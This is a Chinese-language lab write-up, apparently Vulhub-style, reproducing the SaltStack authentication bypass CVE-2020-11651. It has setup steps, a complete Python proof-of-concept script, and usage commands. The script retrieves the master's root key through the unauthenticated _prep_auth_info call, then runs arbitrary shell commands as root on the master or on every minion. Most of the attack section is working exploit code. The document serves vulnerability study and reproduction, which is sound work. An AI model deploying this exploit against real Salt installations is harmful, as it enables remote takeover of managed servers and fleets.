


SaltStack 水平权限绕过漏洞 CVE-2020-11651¶
漏洞描述¶
SaltStack 是基于 Python 开发的一套C/S架构配置管理工具。国外某安全团队披露了 SaltStack 存在认证绕过漏洞（CVE-2020-11651）和目录遍历漏洞（CVE-2020-11652）。
在 CVE-2020-11651 认证绕过漏洞中，攻击者通过构造恶意请求，可以绕过 Salt Master 的验证逻辑，调用相关未授权函数功能，从而可以造成远程命令执行漏洞。
参考链接：
- https://labs.f-secure.com/advisories/saltstack-authorization-bypass
- https://github.com/rossengeorgiev/salt-security-backports
- https://github.com/saltstack/salt/blob/a67d76b15615983d467ed81371b38b4a17e4f3b7/tests/integration/master/test_clear_funcs.py
环境搭建¶
Vulhub执行如下命令启动一个SaltStack Master服务：
docker-compose up -d
环境启动后，将会在本地监听如下端口：
- 4505/4506 这是SaltStack Master与minions通信的端口
- 8000 这是Salt的API端口
- 2222 这是容器内部的SSH服务器监听的端口
漏洞复现¶
本文档复现CVE-2020-11651漏洞。
我们可以使用如下请求来执行salt/master.py中的ClearFuncs:_prep_auth_info方法：
{'cmd': '_prep_auth_info'}
利用这个方法，可以获得目标的所有用户的key，利用这个key即可通过超级管理员权限执行一些后台功能，比如下发任务等。
使用这个POC，首先获取Key，再在master中执行touch /tmp/success：
#!/usr/bin/env python3
# POC for exploiting CVE-2020-11651. CVE-2020-11652 not included, but this one is the really powerful one and it should be easy enough to figure out how to get 11652 working if you need.
# Author: @dozernz
# Some code adapted from https://github.com/rossengeorgiev/salt-security-backports
#
# Pre-requsities: pip3 install salt
import os
import sys
import salt
import salt.version
import salt.transport.client
import salt.exceptions
import datetime
def ping_master():
print("Attempting to ping master at "+master_ip)
try:
msg = {"cmd":"ping"}
response = clear_channel.send(msg, timeout=3)
if response:
return True
except salt.exceptions.SaltReqTimeoutError:
return False
return False
def get_rootkey():
try:
response = clear_channel.send({'cmd':'_prep_auth_info'}, timeout=2)
for i in response:
if isinstance(i,dict) and len(i) == 1:
rootkey = list(i.values())[0]
print("Retrieved root key: " + rootkey)
return rootkey
return False
except:
return False
def send_command_to_minions(command):
print("Sending command to all minions on master")
jid = "{0:%Y%m%d%H%M%S%f}".format(datetime.datetime.utcnow())
cmd = "/bin/sh -c '{0}'".format(command)
msg = {'cmd':"_send_pub","fun":"cmd.run","arg":[cmd],"tgt":"*","ret":"","tgt_type":"glob","user":"root","jid":jid}
try:
response = clear_channel.send(msg,timeout=3)
if response == None:
return True
else:
return False
except:
return False
def master_shell(root_key,command):
# This is achieved by using the stolen key to create a "runner" on the master node using the cmdmod module, then the cmd.exec_code function to run some python3 code that shells out.
# There is a cmd.shell function but I wasn't able to get it to accept the "cmd" kwarg parameter for some reason.
# It's also possible to use CVE-2020-11652 to get shell if the master instance is running as root by writing a crontab into a cron directory, or proably some other ways.
# This way is nicer though, and doesn't need the master to be running as root .
msg = {"key":root_key,
"cmd":"runner",
'fun': 'salt.cmd',
"kwarg":{
"fun":"cmd.exec_code",
"lang":"python3",
"code":"import subprocess;subprocess.call('{}',shell=True)".format(command)
},
'jid': '20200504042611133934',
'user': 'sudo_user',
'_stamp': '2020-05-04T04:26:13.609688'}
try:
response = clear_channel.send(msg,timeout=3)
print("Got response for attempting master shell: "+str(response)+ ". Looks promising!")
return True
except:
print("something failed")
return False
if __name__=="__main__":
if len(sys.argv) <= 2:
print("Not enough args")
print("Use like python3 cve-2020-11651.py <targetip> <master/minions/fetchkeyonly> <command>")
sys.exit(1)
target = sys.argv[1]
master_minion_root = sys.argv[2]
master_ip = target
master_port = '4506'
minion_config = {
'transport': 'zeromq',
'pki_dir': '/tmp',
'id': 'root',
'log_level': 'debug',
'master_ip': master_ip,
'master_port': master_port,
'auth_timeout': 5,
'auth_tries': 1,
'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
}
clear_channel = salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')
if not ping_master():
print("Failed to ping the specified master server, exiting")
sys.exit(1)
if master_minion_root == "master" or master_minion_root == "minions":
command = sys.argv[3]
rootkey = get_rootkey()
if not rootkey:
print("Failed to fetch the root key from the instance. This MAY indicate that it is patched")
sys.exit(1)
else:
if master_minion_root == "master":
master_shell(rootkey,command)
else:
send_command_to_minions(command)
elif master_minion_root == "fetchkeyonly":
get_rootkey()
else:
print("Invalid usage")
获取key：
python CVE-2020-11651.py 192.168.174.128 fetchkeyonly

执行命令touch /tmp/awesome_poc：
python CVE-2020-11651.py 192.168.174.128 master "touch /tmp/awesome_poc"

成功执行命令touch /tmp/awesome_poc：